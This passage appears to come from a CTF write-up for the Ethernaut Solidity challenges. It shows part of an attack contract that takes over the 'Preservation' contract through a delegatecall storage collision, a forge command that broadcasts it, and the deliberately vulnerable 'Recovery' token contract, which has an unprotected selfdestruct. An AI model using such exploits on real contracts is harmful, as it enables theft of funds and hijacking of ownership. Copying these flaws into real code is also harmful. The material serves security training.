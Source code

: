```javascript
        uint attacker = uint(uint160(address(this)));
        preservation.setSecondTime(attacker); // updating timeZone1Library address;

        preservation.setFirstTime(1);

    }
    function setTime(uint _time) public {
        // owner = address(uint160(_time));
        owner = address(0x699BceEbD59a5b52bB586C737cD7ba636f3Fe602);
    }
}
```

To run script : 

```bash
$ source .env
$ forge script script/PreservationSolve.s.sol:PreservationSolve --rpc-url $RPC_URL --broadcast
```


# 17 Recovery

`Recovery.sol`

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Recovery {

  //generate tokens
  function generateToken(string memory _name, uint256 _initialSupply) public {
    new SimpleToken(_name, msg.sender, _initialSupply);
  
  }
}

contract SimpleToken {

  string public name;
  mapping (address => uint) public balances;

  // constructor
  constructor(string memory _name, address _creator, uint256 _initialSupply) {
    name = _name;
    balances[_creator] = _initialSupply;
  }

  // collect ether in return for tokens
  receive() external payable {
    balances[msg.sender] = msg.value * 10;
  }

  // allow transfers of tokens
  function transfer(address _to, uint _amount) public { 
    require(balances[msg.sender] >= _amount);
    balances[msg.sender] = balances[msg.sender] - _amount;
    balances[_to] = _amount;
  }

  // clean up after ourselves
  function destroy(address payable _to) public {
    selfdestruct(_to);
  }
```